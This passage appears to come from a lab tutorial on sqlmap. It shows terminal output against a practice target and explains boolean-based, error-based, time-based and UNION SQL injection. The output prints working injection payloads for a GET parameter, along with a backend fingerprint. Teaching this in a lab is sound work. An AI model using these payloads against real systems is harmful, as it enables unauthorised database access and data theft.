 [text removed]
[08:43:49] [INFO] testing connection to the target URL
[08:43:49] [INFO] heuristics detected web page charset 'ascii'
[08:43:49] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[08:43:49] [INFO] testing if the target URL content is stable
[08:43:50] [INFO] target URL content is stable
[08:43:50] [INFO] testing if GET parameter 'cat' is dynamic
[text removed]
[08:45:04] [INFO] GET parameter 'cat' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[text removed]
[08:45:08] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: cat=1 AND EXTRACTVALUE(1846,CONCAT(0x5c,0x716a787071,(SELECT (ELT(1846=1846,1))),0x7170766a71))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cat=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT CONCAT(0x716a787071,0x714d486661414f6456787a4a55796b6c7a78574f7858507a6e6a725647436e64496f4965794c6873,0x7170766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- HMgq
---
[08:45:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[text removed]
The results in the above terminal show us that different types of SQL injection, such as boolean-based blind, error-based, time-based blind, and UNION query, are identified in the target URL. These are different techniques for exploiting a SQL injection vulnerability. For example, in the boolean-based blind SQL injection, the SQL query is modified, and a boolean expression (that is always true, e.g., 1=1) is included with the query to extract the information. Whereas in the error-based SQL injection, some queries are intentionally modified to generate errors in the results sent by the database. These errors often contain valuable information about the data. Similarly, other SQL injection techniques can also be employed to exploit a database.

The results from the command we executed for our target http://sqlmaptesting.thm/search/cat=1 tell us that different types of SQL injection are possible on this URL. Let's use SQLMap's flags, which we studied earlier, to exploit them and extract some valuable data from the database.
